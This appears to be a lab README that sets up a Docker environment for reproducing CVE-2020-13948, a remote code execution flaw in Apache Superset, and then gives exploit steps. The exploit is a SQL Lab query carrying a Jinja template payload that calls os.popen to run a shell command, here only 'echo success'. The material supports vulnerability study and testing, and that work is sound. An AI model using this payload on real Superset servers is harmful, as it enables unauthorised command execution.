




# Apache Superset Remote Code Execution（CVE-2020-13948）

[中文版本(Chinese version)](README.zh-cn.md)

References:

 - https://github.com/apache/superset/commit/a72903cb929c55642b22895dc11999495605a6fe
 - https://mp.weixin.qq.com/s?__biz=Mzg2NjgzNjA5NQ==&mid=2247514583&idx=3&sn=241457690e19c1468deb89dd84872d35&source=41#wechat_redirect

## Setup

```
chmod +x init.sh
docker-compose build
docker-compose up -d
```

`superset load_examples` needs to wait for a while, you can manually log in to the container to execute `bash /init.sh`

Once the environment is launched, Visit the page to view Superset's page `http://your-ip:8080` , username/password: admin/admin。

## Exploit

1. access the url `http://your-ip:8080/superset/sqllab`
2. Database choose the `examples`
3. enter `select 1 as {{uuid.os.popen('echo success').read()}}`
4. clike `run`






